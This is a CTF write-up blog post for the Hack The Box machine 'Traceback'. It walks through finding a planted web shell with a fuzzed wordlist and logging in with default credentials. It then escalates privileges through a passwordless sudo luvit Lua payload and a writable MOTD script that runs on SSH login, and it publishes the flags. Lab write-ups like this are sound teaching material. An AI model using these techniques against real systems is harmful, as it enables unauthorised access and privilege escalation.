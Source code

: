 +++
title = "[HTB] Traceback"
date = 2020-08-25
template = "post.html"

aliases = [
  "/2020/08/25/htb-traceback/",
  "/htb-traceback",
]

[taxonomies]
categories = ["Security"]
tags = ["CTF", "Web"]
+++
Traceback is an easy Linux-based machine released on the 14th of March 2020 and
reachable on the IP address `10.10.10.181` (despite what's written on the info
card).

![HTB Traceback information card](/posts/htb-traceback/htb-traceback-info-card.jpg)

<!-- more -->

## User flag

Nmap indicates us that the Traceback machine is running OpenSSH and Apache:

```
$ nmap -A 10.10.10.181 | tee nmap.txt
Starting Nmap 7.80 ( https://nmap.org ) at 2020-08-23 19:03 IST
Nmap scan report for 10.10.10.181
Host is up (0.029s latency).
Not shown: 998 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 96:25:51:8e:6c:83:07:48:ce:11:4b:1f:e5:6d:8a:28 (RSA)
|   256 54:bd:46:71:14:bd:b2:42:a1:b6:b0:2d:94:14:3b:0d (ECDSA)
|_  256 4d:c3:f8:52:b8:85:ec:9c:3e:4d:57:2c:4a:82:fd:86 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Help us
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.30 seconds
```

Let's have a look at the website available on port 80:

![Landing page of the website accessible on port
80](htb-traceback-landing-page.png)

The `index.html` page doesn't contain much but this HTML comment:

```html
<center>
  <h1>This site has been owned</h1>
  <h2>I have left a backdoor for all the net. FREE INTERNETZZZ</h2>
  <h3> - Xh4H - </h3>
  <!--Some of the best web shells that you might need ;)-->
</center>
```

It is definitely a hint. A quick search on DuckDuckGo with the keywords "Xh4H
web shell" returns [https://github.com/Xh4H/Web-Shells][web-shells] as first
result. It is a Git repository full of web shells. One of them is certainly the
one that the original attacker has left on the server!

To create a wordlist with the web shells comprised in the Git repository, I
called the [GitHub API][github-api-trees] with this one-liner command-line:

```
$ curl -s https://api.github.com/repos/Xh4H/Web-Shells/git/trees/4c9bade954938d56597325b872739c1a2463cf91 | jq -r .tree[].path | grep -vi readme | tee web-shells.txt
alfa3.php
alfav3.0.1.php
andela.php
bloodsecv4.php
by.php
c99ud.php
cmd.php
configkillerionkros.php
jspshell.jsp
mini.php
obfuscated-punknopass.php
punk-nopass.php
punkholic.php
r57.php
smevk.php
wso2.8.5.php
```

Then, I fuzzed the web server with this wordlist using ZAP:

![Output from ZAP's fuzzer with the list of web shells previously
generated](htb-traceback-web-shells.png)

And voila! The backdoor is accessible at
[http://10.10.10.181/smevk.php][smevk-backdoor]:

![SmEvk web shell's login page](htb-traceback-smevk-login-page.png)

The credentials `admin:admin` are hard-coded in the web shell:
[https://github.com/Xh4H/Web-Shells/blob/master/smevk.php#L14-L15][smevk-credentials].

Then, I used the terminal available in the "Console" tab to poke around a
little:

```
$ id
uid=1000(webadmin) gid=1000(webadmin) groups=1000(webadmin),24(cdrom),30(dip),46(plugdev),111(lpadmin),112(sambashare)
$ cat /home/webadmin/note.txt
- sysadmin -
I have left a tool to practice Lua.
I'm sure you know where to find it.
Contact me if you have any question.
```

A Lua tool?

```
$ cat /home/webadmin/.bash_history
ls -la
sudo -l
nano privesc.lua
sudo -u sysadmin /home/sysadmin/luvit privesc.lua
rm privesc.lua
logout
$ sudo -l
Matching Defaults entries for webadmin on traceback:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User webadmin may run the following commands on traceback:
    (sysadmin) NOPASSWD: /home/sysadmin/luvit
```

It indeed seems that the `webadmin` user can execute `/home/sysadmin/luvit` on
behalf of `sysadmin` without password.

[Luvit][luvit] is a program which "implements the same APIs as Node.js, but in
Lua!". We can therefore use it to execute Lua payloads. We fill prepare one for
reading the user flag:

```
$ printf 'file = io.open("/home/sysadmin/user.txt", "r")\nio.input(file)\nprint(io.read())\nio.close(file)\n' > /tmp/read_flag.lua
```

And then:

```
$ sudo -u sysadmin /home/sysadmin/luvit /tmp/read_flag.lua
```

Which gives us the user flag: `e564de9f40e354deb591fa121937ca0d`.

## Root flag

Before going further, I wanted to get a "real" shell so I added an SSH public
key of mine to the `sysadmin` user's authorised keys and then connected back to
the server as `sysadmin` via SSH.

During the rest of my investigation, something caught my attention:

```
$ find / -type f -writable 2>/dev/null | grep -v '^/proc' | grep -v '^/sys'
/etc/update-motd.d/50-motd-news
/etc/update-motd.d/10-help-text
/etc/update-motd.d/91-release-upgrade
/etc/update-motd.d/00-header
/etc/update-motd.d/80-esm
/home/sysadmin/.bashrc
/home/sysadmin/luvit
/home/sysadmin/.bash_logout
/home/sysadmin/.ssh/authorized_keys
/home/sysadmin/.cache/motd.legal-displayed
/home/sysadmin/.bash_history
/home/sysadmin/.profile
/home/webadmin/note.txt
```

The `sysadmin` user can edit the MOTD scripts!

```
$ ls -al /etc/update-motd.d/
total 32
drwxr-xr-x  2 root sysadmin 4096 Aug 27  2019 .
drwxr-xr-x 80 root root     4096 Mar 16 03:55 ..
-rwxrwxr-x  1 root sysadmin  981 Aug 23 16:22 00-header
-rwxrwxr-x  1 root sysadmin  982 Aug 23 16:22 10-help-text
-rwxrwxr-x  1 root sysadmin 4264 Aug 23 16:22 50-motd-news
-rwxrwxr-x  1 root sysadmin  604 Aug 23 16:22 80-esm
-rwxrwxr-x  1 root sysadmin  299 Aug 23 16:22 91-release-upgrade
```

This is really bad (for the server's owner at least) because these scripts are
executed upon any new SSH connection as defined in `/etc/pam.d/sshd`:

```
...
# Print the message of the day upon successful login.
# This includes a dynamically generated part from /run/motd.dynamic
# and a static (admin-editable) part from /etc/motd.
session    optional     pam_motd.so  motd=/run/motd.dynamic
session    optional     pam_motd.so noupdate
....
```

All I need is to modify one of those scripts to print the root flag:

```
$ echo 'cat /root/root.txt' >> /etc/update-motd.d/00-header
```

And when one logs in via SSH:

```
$ ssh -o PasswordAuthentication=no -i ~/.ssh/traceback sysadmin@10.10.10.181
#################################
-------- OWNED BY XH4H  ---------
- I guess stuff could have been configured better ^^ -
#################################

Welcome to Xh4H land

fa6d76ff6866c37f381b5f6e40f8ce89


Failed to connect to https://changelogs.ubuntu.com/meta-release-lts. Check your Internet connection or proxy settings

Last login: Sun Aug 23 16:23:41 2020 from 10.10.14.16
$
```

The root flag was `fa6d76ff6866c37f381b5f6e40f8ce89`.

 [github-api-trees]: https://docs.github.com/en/rest/git/trees#get-a-tree
 [luvit]: https://luvit.io/
 [smevk-backdoor]: http://10.10.10.181/smevk.php
 [smevk-credentials]: https://github.com/Xh4H/Web-Shells/blob/master/smevk.php#L14-L15
 [web-shells]: https://github.com/Xh4H/Web-Shells
